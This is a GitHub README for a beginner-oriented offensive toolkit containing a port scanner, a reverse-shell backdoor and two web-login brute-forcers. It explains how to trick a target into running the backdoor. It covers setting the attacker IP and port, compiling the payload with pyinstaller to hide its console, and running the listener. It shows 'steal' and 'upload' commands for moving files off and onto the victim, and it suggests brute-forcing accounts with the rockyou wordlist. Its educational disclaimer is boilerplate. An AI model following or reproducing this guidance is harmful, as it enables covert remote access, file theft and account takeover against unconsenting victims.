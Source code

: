 
# Kiddo Toolbox

A toolbox for the little ones in cybersecurity with simple UI and the set of all the basic features

## Disclaimer

The tools and software provided in this GitHub repository are intended for educational and research purposes only. The author of this repository does not condone or support any illegal activities, and the use of these tools for any malicious or unauthorized purposes is strictly prohibited.

The author does not take any responsibility for the misuse of these tools or any damage caused by their usage. It is the user's responsibility to ensure that they are using these tools in a legal and ethical manner, and to comply with all applicable laws and regulations.

By downloading and using the tools provided in this repository, you agree to use them at your own risk and accept full responsibility for any consequences that may result from their usage.

## Currently available tools

- Portscanner
- Backdoor
- Cmok
- Gorynich (concurrency incoming...)

## About and Demo

- Portscanner
  
Select the single/multiple/range/subnet of targets, specify ports you're interested in, wait a sec and BOOM! You have'em all!

![portscanner demo](https://github.com/danyash17/kiddo_toolbox/blob/7c1dfdd0b433166e9f8a13cf4f1b738466a12177/project/demo/portscanner-demo.gif)

- Backdoor

Ever wanted to become a master of puppets? It's simple - just trick your target to execute a backdoor and gain a remote access to target machine!

![backdoor demo](project/demo/backdoor-demo.gif)

- Cmok

Let's assume you want to gain access to some specific account in a web application and you know username of that account. Then unpack Cmok and bruteforce a password! P.S. Cmok is a mystical dragon-like creature in my native country.

![cmok demo](project/demo/cmok-demo.gif)

- Gorynich

So, another situation. You're interested to get into some web application.. but you don't know a thing. Not a single username or password. No worries - Gorynich is powerful enough to bruteforce pairs of correct credentials! If you're adventurous enough, you could try and use **rockyou** password wordlist to try nearly every password ever appeared in web. P.S. Gorynich is also a draconic creature like Cmok, but he has more than one head!

![gorynich demo](project/demo/gorynich-demo.gif)


## Installation

- Portscanner
  
Nothing difficult - just clone and run.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
  python3 portscanner.py
```

- Backdoor
  
More difficult to set up. First, clone a repo.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
```

After that, it's crucial to configure your **host ip** and **listening port** in payload. Do not mess up - IP must be of type **string** and PORT of type **int**. I used Linux *nano* command down here, if you don't know what is it, just open **backdoor_payload.py** file in a notepad and write your **host ip** and **listening port** inside " " symbols, as in the example below.

```bash
  nano backdoor_payload.py
  ## IP = "192.168.0.100"
  ## PORT = 7777
```

So, the payload is configured. Now you need to transfer it to a target machine. You can simply put a python script *backdoor_payload.py* staight from this repo. Or, to do better, compile a binary executable to hide a console using *pyinstaller*.

```bash
  pyinstaller backdoor_payload.py --onefile --noconsole
```
After malicious delivery, be sure to run *backdoor_client.py* script to put up a listener. A payload will infinitely try to connect to client once it executed.

You see *shell* label in your console? Victory! You now have full access to a terminal of a target machine. In addition to standard bash commands this payload have 2 commands to download and upload files from/to target machine.

```bash
  shell~('192.168.0.100', 47890)steal <target_filename>
  shell~('192.168.0.100', 47890)upload <host_filename>
```

Feel free to explore it by yourself!

- Cmok and Gorynich
  
Again, nothing difficult - just clone and run. Pay attention to your inputs and rewatch demo carefully in case of any issues.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
  python3 bruteforcer.py
```
